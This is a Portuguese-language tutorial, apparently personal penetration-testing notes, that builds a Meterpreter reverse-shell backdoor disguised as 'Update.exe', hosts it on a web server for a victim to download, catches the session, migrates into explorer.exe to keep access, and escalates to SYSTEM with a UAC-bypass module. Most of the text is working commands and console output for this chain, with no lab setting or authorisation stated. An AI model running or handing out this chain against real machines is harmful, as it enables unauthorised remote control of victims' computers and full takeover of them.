 ```yaml
---
tags:
  - EXPLOITATION
  - Payload
---
```

# Criando o backdoor

Primeiro, criaremos um payload com a função **reverse_tcp**. Portanto, abra seu terminal e execute o seguinte comando:

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.4 lport=1234 -o Update.exe
```

*IP = sua máquina*
*A porta pode ser qualquer uma. Deve ser usada a mesma posteriormente*

Agora você encontrará o arquivo `.exe` criado no diretório do Linux

# Colocando o backdoor na máquina alvo
Vamos hospedar o backdoor em um servidor simples. Primeiro startando servidor:
```powershell
service apache2 start
```

Copia-lo para uma pasta do servidor
```shell
cp Update.exe /var/www/html #diretório do apache
```

Agora você precisaria encontrar uma maneira de ==fazer a máquina alvo executá-lo==. Há várias maneiras de fazer isso po meio de Engenharia Social, porém esse método está fora do escopo deste tutorial. Vou apenas exemplificar como o alvo acessaria o link com o backdoor:
```powershell
http://192.168.200.56/Update.exe
```

O download iniciará instantaneamente.

```powershell
$ msfconsole  
```

Agora, vamos selecionar o arquivo e usa-lo

```powershell
msf6 > use multi/handler
```

Escolher o payload de para windows, setar o LHOST (nossa máquina) e a porta. Agora só escrever **run** e aguardar a máquina alvo se conectar

```shell
> set payload windows/meterpreter/reverse_tcp
#payload => windows/meterpreter/reverse_tcp
> set lhost 192.168.200.46
#lhost => 192.168.200.46

> set lport 4444
#lport => 4444

> run

#[*] Started reverse TCP handler on 192.168.200.46:4444 
```

Assim que a máquina executar o arquivo, teremos conseguido acesso total.

# Escalação de Privilégios
Com `getuid` conseguimos ver que temos por enquanto apenas permissão de usuário comum
```powershell
meterpreter > getuid
#Server username: rae-PC\rae
```

Para conseguir um nível de administração do sistema, daremos o comando `getsystem`. Assim, teremos mais acesso que antes, porém ainda não é um acesso completo. 

Caso o usuário feche a sessão, perderemos nosso acesso, portanto vamos seguir os próximos passos

Por meio do `getpig`, podemos ver nosso processo atual. Portanto, vamos trocar nosso *pig* por um de outro **processo que sempre está rodando**. Vamos rodar o comando `ps` para ver todos os processos e pegar o pig do processo `explorer.exe`

```powershell
meterpreter > getpid
#Current pid: 1840

meterpreter > ps
2648  2616  explorer.exe    x64   1  
rae-PC\rae              C:\Windows\explorer.exe
```

Para trocar, daremos o seguinte comando:
```powershell
meterpreter > migrate 2648
[*] Migrating from 1840 to 2648...
[*] Migration completed successfully.

meterpreter > getpid
Current pid: 2648 # migração concluida
```

Agora, continuando com a escalação de privilégios, vamos entrar no shell e verificar nosso usuário, que ainda é um usuário padrão:

```powershell
meterpreter > shell
Process 820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
rae-pc\rae #usuário comum
```

Para isso, vamos sair com `exit` e jogar a sessão para background, criar uma nova e implementar outro exploit para escalação

```powershell
C:\Windows\system32>exit
exit

meterpreter > background
#[*] Backgrounding session 1...

msf6 exploit(multi/handler) > sessions

#Active sessions 3===============

#  Id  Name  Type                     Information          Connection
#  --  ----  ----                     -----------          ----------
  #1         meterpreter x64/windows  rae-PC\rae @ RAE-PC  192.168.200.46:4444 -> 192.168.20
                                                          #0.53:49447 (192.168.200.53)

```


```powershell
msf6 exploit(multi/handler) > search uac
```

O exploit que usuaremos agora é este:

![[Pasted image 20231126172758.png]]

```powershell
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac
#[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac) > 
```

Por meio do comando `show options` conseguimos perceber que precisamos setar uma *session* que no caso é a sessão que anteriormente deixamos em background.

```powershell
msf6 exploit(windows/local/bypassuac) > show options

Module options (exploit/windows/local/bypassuac):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION                     yes       The session to run this module on
   TECHNIQUE  EXE              yes       Technique to use if UAC is turned off (Accepted: P
                                         SH, EXE)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process,
                                         none)
   LHOST     192.168.200.46   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

View the full module info with the info, or info -d command.
```

Vamos setar o mesmo payload anterior

```powershell
msf6 exploit(windows/local/bypassuac) > set payload windows/meterpreter/reverse_tcp
```

Agora escolher uma arquitetura especifica, selecionar os mesmos `lhost` e `lport` como anteriormente e por  fim selecionar a sessão que deixamos em background

```powershell
msf6 exploit(windows/local/bypassuac) > show targets

#Exploit targets:
#=================

#    Id  Name
#    --  ----
#>  0   Windows x86
#    1   Windows x64

msf6 exploit(windows/local/bypassuac) > set target 0
#target => 0

msf6 exploit(windows/local/bypassuac) > set lhost 192.168.200.46
#lhost => 192.168.200.46

msf6 exploit(windows/local/bypassuac) > set lport 2022
#lport => 2022

msf6 exploit(windows/local/bypassuac) > set session 1
#session => 1

msf6 exploit(windows/local/bypassuac) > exploit
```

Uma nova sessão será criada e ficará na session 3. Com `getuid` vemos que ainda somos usuário comum, porém escalar o privilégio com o comando `getsystem`:

```powershell
meterpreter > getsystem
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Agora basta abrir o shell e ver nosso privilégio de admin. 

```powershell
meterpreter > shell
#Process 448 created.
#Channel 1 created.
#Microsoft Windows [Version 6.1.7601]
#Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
#whoami
#nt authority\system
```

